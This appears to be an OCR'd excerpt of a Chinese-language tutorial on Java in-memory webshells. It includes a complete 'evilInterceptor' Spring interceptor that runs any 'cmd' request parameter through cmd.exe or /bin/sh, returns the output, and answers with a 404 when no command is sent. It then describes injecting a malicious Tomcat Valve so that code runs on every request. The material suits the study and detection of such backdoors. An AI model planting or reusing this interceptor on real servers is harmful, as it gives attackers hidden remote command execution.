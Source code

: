 ```java

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;
import java.util.Scanner;

public class evilInterceptor {
    public static HandlerInterceptor getInterceptor(){
        return new HandlerInterceptor() {
            @Override
            public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
                String cmd = request.getParameter("cmd");
                PrintWriter writer = response.getWriter();
                if (cmd != null) {
                    String o = "";
                    ProcessBuilder p;
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        p = new ProcessBuilder("cmd.exe", "/c", cmd);
                    } else {
                        p = new ProcessBuilder("/bin/sh", "-c", cmd);
                    }
                    Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
                    o = c.hasNext() ? c.next() : o;
                    c.close();
                    writer.write(o);
                    writer.flush();
                    writer.close();
                } else {
                    response.sendError(404);
                }
                return true;
            }
        };
    }
}

```
![](2023-01-30-17-56-44.png)
### Tomcat Valve
Tomcat Valve是指在tomcat中pipline的一个个处理模块,在Tomcat中分为四个容器Engine,Host,Context,Wrapper,其都继承于基础容器类`ContainerBase`,而`ContainerBase`則是原始`Container`接口的实现类,而pipline的作用就是将这个四个容器连接起来,当一个请求到达时,依次将该请求通过pipline传递各个容器进行处理最后返回,而Valve就是pipline内部的一个组件,可以对传递的reqeust进行额外的逻辑处理,而且四个容器使用的是同一个pipline,所以在任意一个容器内都可以访问到pipline的Valve,同样的Tomcat也提供了添加valve的功能,所以则可以同添加恶意的valve实现类到pipline中,在每一个请求进入时执行恶意代码.  
